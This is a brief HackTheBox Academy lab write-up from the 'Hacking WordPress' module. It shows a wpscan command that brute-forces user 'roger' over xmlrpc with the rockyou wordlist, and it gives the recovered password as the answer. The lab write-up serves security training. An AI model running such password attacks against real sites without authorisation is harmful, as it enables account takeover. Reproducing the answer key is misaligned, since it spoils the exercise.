

**Platform:**  HackTheBox Academy
**Category:**  Hacking WordPress
**Difficulty:**  Easy
**Date:** 2026-11-09  
**Tags:** htb academy, hacking wordpress

---

## Reconnaissance

1. Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.

We will use `wpscan` to bruteforce this user password since it has this functionality



```bash
wpscan --password-attack xmlrpc -t 20 -U roger -P /home/kosynus/wordlists/rockyou/rockyou.txt --url http://154.57.164.77:37947
```

## Flag / Root

1. `lizard`
